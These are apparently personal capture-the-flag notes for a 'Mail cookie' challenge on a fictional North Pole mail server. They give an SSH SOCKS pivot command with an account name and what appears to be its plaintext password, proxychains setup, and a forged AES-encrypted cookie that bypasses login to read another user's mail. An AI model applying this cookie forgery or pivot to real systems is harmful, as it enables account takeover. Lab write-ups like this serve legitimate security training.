

# Challenge 4 -MAIl cookie
from kali:
ssh -C -D 1080 alabaster_snowball@35.227.95.239
stream_unhappy_buy_loss
nano /etc/proxychains.conf
make sure it set to 1080
proxychains firefox
mail.northpolechristmastown.com (10.142.0.5)
http://10.142.0.5/robots.txt
http://10.142.0.5/cookie.txt
http://10.142.0.5/orders.xhtml
Found correct email from error on popup
alabaster.snowball@northpolechristmastown.com
Found site to encrpt to AES256
https://aesencryption.net/

Create AES256 string using
string: thisistheencrypt
Key:1234
AES256: y0MBQ642b8EM5psdSpS03Q==
final cookie should look like this
{"name":"alabaster.snowball@northpolechristmastown.com","plaintext":"","ciphertext":"y0MBQ642b8EM5psdSpS03Q=="}
found email with Greatbook page from holly Everygreen
http://mail.northpolechristmastown.com/attachments/GreatBookPage4_893jt91md2.pdf
shasum GreatBookPage4_893jt91md2.pdf
f192a884f68af24ae55d9d9ad4adf8d3a3995258